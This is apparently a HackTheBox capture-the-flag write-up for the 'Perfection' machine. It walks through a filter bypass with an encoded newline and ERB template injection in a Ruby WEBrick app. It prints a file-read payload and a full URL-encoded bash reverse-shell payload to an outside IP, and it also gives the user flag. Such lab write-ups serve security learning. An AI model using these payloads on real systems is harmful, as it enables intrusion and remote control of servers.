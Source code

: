 # Perfection
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a25ccf1b-8041-48e5-9d09-020a945528ef)


## Lessons Learned:
- Exploiting WEBrick 1.7.0
- ERB and reverse shell using Ruby Code Execution.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.253 --min-rate 1000                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 20:39 PDT
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

1. Based from the nmap results above, the machine runs a web application at port 80 and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa0e65bb-d7f4-4cef-ac2a-6f97fb41f177)


2. Scrolling down to the footer section, we identified the web server used is **WEBrick** which is a RUBY library.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/deb7b11b-a64a-47b2-a6b1-44b2819fb424)


3. Searching on the internet about vulns found in **WEBrick 1.7.0** resulting to none.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/29519086-e07e-46de-aae0-af2cfb55c438)


4. Scanning for subdomain and directories also resulting to none. However our interest should be at the **weight grade calculation** feature.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e3e3123-8c34-4a6d-995e-0ecffda31a1c)


5. After sent normal input, seems it just calculate our grades normally. Nothing special at client-side.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2f3a453e-a418-47a1-90b7-9cff9ec31e83)


6. Tried to execute client-side attack, the webapp reflects us **Malicious Input Blocked**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/26e43bd2-e5a9-4a3a-8cf6-8e90ffccc596)


7. Let's use repeater for further testing.
8. The reflect message is caused because I input the malicious script/code at the **category** column.
9. This time I tried to send `;id ` but encode it with URL.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48782621-d8df-40c9-bce7-ecac7e8ee39c)


10. It's still blocked.
11. Let's try to send non-malicious URL encoded newline (\n) to test whether it executes encoded URL.

> Sending %0a

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a26e2d7d-7293-4982-866c-2a7258db9e99)


12. It executed, it's a finding then.
13. Great! Now our interest focused on finding the correct ruby command injection or SSTI payloads.
14. Long story short, found a repo which lists all the ruby code execution payloads.

#### NOTES:

```
I dropped all the useful links at the bottom of this MD file.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48adb320-33a2-449f-8675-753f5c0ee33c)

 
15. Nice, let's use the **read file** payload and encode it in URL format.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10119366-43a3-4657-8968-73a25330e3a1)


> pwn%0a<%25%3d+File.open('/etc/passwd').read+%25>

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9c88067-33a6-4ddf-bb80-ee4ee3dee672)



#### NOTES:

```
%0a is needed, because it acts as a delimiter.
```

16. Amazing! Let's try to do reverse shell so it's easier for us to get the user flag.
17. This time let's use the system() code execution payload.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85217040-bdf2-46d3-8b8f-ba80c927bbdb)


```txt
Bash Reverse Shell Payload:
bash -i >& /dev/tcp/10.10.14.24/1337 0>&1

Wrapped it with Ruby Code Execution Payload:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

URL ENCODE IT:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

FULL PAYLOAD:
pwn%0a<%25%3d+system("bash+-c+'exec+bash+-i+>%26+/dev/tcp/10.10.14.24/1337+0>%261'")+%25>
```

18. All we need to do now is set a listener on port 1337 then send the payload using repeater.

> RESULT - Got shell as Susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a38add66-1558-4a42-a107-6e53a39c4389)


> GETTING THE USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2fdd20de-cc5b-4577-a0e6-7cd3d12966f3)


## USER FLAG

```
69adddfe701657e656b754bc7b3801d5
```



## IMPORTANT LINKS

```
https://security.snyk.io/package/rubygems/webrick
https://portswigger.net/kb/issues/00100f00_ruby-code-injection
https://www.stackhawk.com/blog/command-injection-ruby/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby
```
